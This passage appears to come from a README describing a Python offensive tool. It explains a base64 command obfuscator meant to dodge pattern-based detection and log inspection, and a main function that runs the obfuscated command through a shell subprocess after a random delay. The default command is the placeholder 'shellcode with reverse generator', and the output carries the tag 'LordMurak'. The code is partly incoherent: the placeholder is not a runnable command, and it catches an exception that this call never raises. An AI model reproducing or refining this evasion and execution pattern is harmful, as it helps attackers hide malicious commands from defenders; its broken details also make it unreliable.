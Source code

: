 ````

```



- **Purpose**: Takes a plaintext command and returns a string that decodes it at runtime, making the actual command less obvious in logs or memory.
- **Base64 Obfuscation**: This is not encryption, but it can circumvent simple pattern-based detections.

#### 3. `main` Function


```
def main(command=None):
    """
    Executes an obfuscated command with a random delay,
    in a 'clean' environment, handling errors.
    """
    if command is None:
        command = "shellcode with reverse generator"

    # Random delay
    delay = random.randint(1, 5)
    time.sleep(delay)

    # Obfuscate command
    obfuscated = obfuscate_command(command)

    # Clean environment
    clean_env = {}

    # Execute command in a subprocess
    try:
        process = subprocess.Popen(
            obfuscated,
            shell=True,
            stdout=subprocess.PIPE,
            stderr=subprocess.PIPE,
            text=True,
            env=clean_env
        )
        out, err = process.communicate()

        # Check return code
        if process.returncode == 0:
            print("[+] Command executed successfully - LordMurak")
            if out:
                print("Output:\n", out)
        else:
            print("[!] ERROR - Non-zero return code")
            if err:
                print("Stderr:\n", err)

    except subprocess.CalledProcessError as cpe:
        print("[!] CalledProcessError:", cpe)
    except Exception as e:
        print("[!] Unexpected error:", e)
```

- **Default Command**: If no command is provided, it uses a placeholder.
- **Random Delay**: `random.randint(1, 5)` introduces unpredictability.
````